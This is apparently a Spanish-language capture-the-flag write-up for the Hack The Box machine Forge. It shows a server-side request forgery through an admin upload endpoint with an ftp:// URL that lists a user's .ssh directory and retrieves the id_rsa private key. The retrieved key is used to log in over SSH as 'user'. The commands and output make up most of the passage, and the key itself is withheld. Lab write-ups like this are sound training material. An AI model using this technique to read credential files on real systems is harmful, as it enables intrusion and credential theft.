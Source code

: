 # Root.txt

Al ver que conseguíamos ver la flag `user.txt`, la cual siempre suele estar en el directorio `home` de un usuario, pensé en intentar acceder al directorio `.ssh` para ver si existía:

> `http://ADMIN.FORGE.HTB/upload?u=ftp://user:PASSWORD@FORGE.HTB/.ssh/` # Cambia la contraseña
>  
```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl http://forge.htb/uploads/3MLSIIr0gtmYCswsMKnC
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
```
Vemos que el directorio `.ssh` existe y además contiene claves de **SSH**.

Con la clave privada `id_rsa` podríamos acceder al sistema sin proporcionar contraseña.

Obtengamos esta clave:

> `http://ADMIN.FORGE.HTB/upload?u=ftp://user:PASSWORD@FORGE.HTB/.ssh/id_rsa` # Cambia la contraseña

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl http://forge.htb/uploads/J0l7iZ8D1172NtXOU4F6
-----BEGIN OPENSSH PRIVATE KEY-----

Do it by yourself

-----END OPENSSH PRIVATE KEY-----
```
Bien, tenemos una **clave privada** de SSH, pero no sabemos de que usuario.

Solo sabemos la existencia de un usuario y es `user`, probemos a iniciar sesión con este.

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ ssh -i id_rsa user@10.10.11.111
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 23 Jan 2022 04:00:18 PM UTC

  System load:  0.0               Processes:             218
  Usage of /:   43.8% of 6.82GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.11.111
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$ 
```
¡Hemos conseguido acceso al sistema!, hora de escalar privilegios.

---